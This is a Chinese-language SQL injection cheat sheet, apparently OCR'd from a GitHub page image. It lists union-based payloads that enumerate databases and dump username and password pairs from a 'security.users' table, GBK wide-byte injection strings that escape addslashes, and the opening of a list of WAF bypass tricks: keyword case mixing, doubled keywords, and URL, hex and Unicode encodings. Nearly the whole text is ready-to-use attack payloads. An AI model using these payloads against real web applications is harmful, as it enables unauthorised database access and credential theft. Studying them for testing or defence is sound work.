 ## 联合查询注入，要让前面的参数不正确，union查询的才显示

```sql
# 判断数据库列数
union+select+1,2,3--+
# 判断数据库
union select 1,database(),3--+
# 判断用户名
union select 1,user(),3--+
# 获取数据
union select 1,(SELECT concat_ws('@',username,password) FROM `security`.`users` LIMIT 0,1),3--+
# 获取数据
union select 1,3,group_concat(concat_ws('@',tryy,secret_GJ10)) from challenges.6tlnlghrs7--+
# 获取数据库
union select 1,3,schema_name from information_schema.schemata limit 0,1--+
```

## 宽字节注入，gbk网站独有的注入

```sql
# GBK编码，使用了addsalshes函数或者类似函数进行了转义，那么我们输入的参数1'，就会变为1\'
1、想办法给\前面再加一个\（或单数个即可），变成\\’，这样\被转义了，’逃出了限制，叫做‘逃逸
2、想办法把\弄没有

# 判断数据库列数
%df%27 or 0 union+select+1,2,3--+
# 判断数据库
%df%27 or 0 union select 1,database(),3--+
# 判断用户名
%df%27 or 0 union select 1,user(),3--+
# 获取数据库
%df%27 or 0 union select 1,2,group_concat(schema_name) from information_schema.schemata--+
# 获取数据
%df%27 or 0 union select 1,2,group_concat(concat_ws(username,password)) from security.users--+
```

## 绕过WAF的方法

从目前能找到的资料来看，我把这些绕过waf的技术分为9类，包含从初级到高级技巧

- 大小写混合

-15 uNIoN sELecT 1,2,3,4

- 替换关键字

-15 UNIunionON SELselectECT 1,2,3,4

- 使用编码

1. 常见URL Encode有：
    %20 -> （空格）-> + -> %2b
    %22 -> "
    %23 -> #    #传给服务器,需要进行URL编码
    %25 -> %
    %27 -> '
    0x7e -> ~
2. URL编码:1%252f%252a*/UNION%252f%252a /SELECT
3. 十六进制编码:-15 /!u%6eion/ /!se%6cect/ 1,2,3,4…
4. Unicode编码:
    常用的几个符号的一些Unicode编码：
    单引号: %u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
    空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0
    左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8
    右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
    举例：?id=10%D6'%20AND%201=2%23　　